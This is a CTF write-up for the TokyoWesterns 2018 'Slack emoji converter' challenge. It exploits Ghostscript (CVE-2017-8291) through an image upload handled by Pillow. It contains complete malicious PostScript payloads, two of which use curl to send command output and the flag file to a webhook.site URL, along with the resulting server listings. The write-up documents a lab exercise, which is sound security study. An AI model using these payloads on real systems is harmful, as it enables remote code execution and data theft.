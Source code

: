 ```yaml
---
title: Slack emoji converter 
contest: TokyoWesterns CTF 4th 2018
authors: trupples
layout: writeup
---
```


## Proof of Flag
```
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```

## Summary
Exploiting an image upload form that doesn’t check the image type by sending it
postscript “images” which execute shell commands. See CVE-2017-8291.

## Proof of solving
I’m omitting the server code here but what it does is save the image you send it
to a temporary file and attempting to resize it to max 128x128 pixels using the
python library Pillow. I initially thought it might be a race condition
vulnerability because of the `mktemp` usage. If you send the server a regular
image, say a png, jpeg, gif, etc. image, it works as expected and it sends you
back that image scaled down.

The problem is the fact that Pillow has postscript support and will try to
render a postscript “image” if sent one. I recently say this post on twitter and
it was exactly what I needed:

https://twitter.com/chaignc/status/1032253548954877954

I downloaded the server source and started a local instance to which I sent this
malicious postscript file:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%notify-send “PWNED BOIII”) currentdevice putdeviceprops
showpage
```

And this popped up:

![Notification with "PWNED BOIII" content](./notif.jpg)

This is awesome! We have RCE. To send a payload we only need to replace the
command in the postscript file to something else and send it again. I quickly
set up a https://webhook.site instance and crafted this payload:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl -X POST https://webhook.site/9ef35d63-cd74-42da-ad5c-7e1f57cd7395 -d "`ls -hal`") currentdevice putdeviceprops
showpage
```

After uploading it I received this request:

```
total 20K
drwxr-xr-x 1 root root 4.0K Sep  1 14:56 .
drwxr-xr-x 1 root root 4.0K Sep  1 14:38 ..
-rw-r--r-- 1 root root 1.1K Sep  1 14:25 app.py
drwxr-xr-x 2 root root 4.0K Sep  1 14:56 templates
-rw-r--r-- 1 root root  135 Sep  1 07:17 uwsgi.ini
```

This confirms we have RCE :D Exciting stuff! The flag wasn’t in the same
directory and it took a bit of looking around until I found where it is located.
It’s in the filesystem root directory. Here’s the listing of `/`:

```
total 76K
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 .
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 ..
-rwxr-xr-x   1 root root    0 Sep  2 07:03 .dockerenv
drwxr-xr-x   1 root root 4.0K Jul 17 03:15 bin
drwxr-xr-x   2 root root 4.0K Jun 26 12:03 boot
drwxr-xr-x   5 root root  360 Sep  2 07:03 dev
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 etc
-rw-r--r--   1 root root   39 Sep  1 14:41 flag
drwxr-xr-x   2 root root 4.0K Jun 26 12:03 home
drwxr-xr-x   1 root root 4.0K Jul 17 03:15 lib
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 lib64
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 media
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 mnt
drwxr-xr-x   2 root root 4.0K Jul 16 00:00 opt
dr-xr-xr-x 148 root root    0 Sep  2 07:03 proc
drwx------   1 root root 4.0K Sep  1 14:36 root
drwxr-xr-x   1 root root 4.0K Sep  2 07:03 run
drwxr-xr-x   1 root root 4.0K Jul 17 03:13 sbin
drwxr-xr-x   1 root root 4.0K Sep  1 14:38 srv
dr-xr-xr-x  12 root root    0 Sep  2 07:03 sys
drwxrwxrwt   1 root root 4.0K Sep  2 10:01 tmp
drwxr-xr-x   1 root root 4.0K Jul 16 00:00 usr
drwxr-xr-x   1 root root 4.0K Jul 16 00:00 var
```

Now let’s `cat /flag` with this final payload:

```
%!PS
%%BoundingBox: 0 0 74 35

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%curl -X POST https://webhook.site/9ef35d63-cd74-42da-ad5c-7e1f57cd7395 -d "`cat /flag`") currentdevice putdeviceprops
showpage
```

The received flag is:
```
TWCTF{watch_0ut_gh0stscr1pt_everywhere}
```
